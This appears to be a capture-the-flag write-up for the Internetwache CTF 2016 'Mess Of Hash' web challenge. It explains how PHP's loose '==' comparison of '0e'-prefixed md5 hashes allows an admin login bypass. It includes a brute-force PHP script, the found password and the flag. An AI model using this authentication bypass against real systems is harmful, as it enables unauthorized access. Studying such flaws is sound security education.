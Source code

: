 ```yaml
---
title: 'Internetwache CTF 2016: Mess Of Hash (web 50)'
date: 2016-02-22 00:00:00 Z
categories:
- writeup
tags:
- cat/web
- lang/php
layout: post
author: kree
---
```


* **Category:** web
* **Points:** 60
* **Description:** 

> Students have developed a new admin login technique. I doubt that it's secure, but the hash isn't crackable. I don't know where the problem is...

* **Hint (README.txt):** 

```php
<?php

$admin_user = "pr0_adm1n";
$admin_pw = clean_hash("0e408306536730731920197920342119");

function clean_hash($hash) {
    return preg_replace("/[^0-9a-f]/","",$hash);
}

function myhash($str) {
    return clean_hash(md5(md5($str) . "SALT"));
}
```

## Writeup

The website shows a login form with a user and a password field. From the given hint in the README file we can assume that we need to find a value for the password field that gets us through the following check:

```php
md5(md5($str) . "SALT")) == "0e408306536730731920197920342119"
```

In order to solve this challenge we could look for a md5 collision, but in this case there's an easier way: The `==` operator offers some exploitable magic in php. As described here [1], a string that starts with `0e` will be interpreted as a float and converted to `0`. So, one needs to find a `$str` such that `md5(md5($str) . "SALT"))` starts with `0e` and thats it :) 

The following script

```php
<?php
$i = 0;
do{
    $i++;
} while(md5(md5(strval($i))."SALT") != "0e408306536730731920197920342119");
echo $i;
?>
```

yields `62778807` after a few seconds, which we can use as a password.

Flag:  `IW{T4K3_C4RE_AND_C0MP4R3}`

[1] https://news.ycombinator.com/item?id=9484757
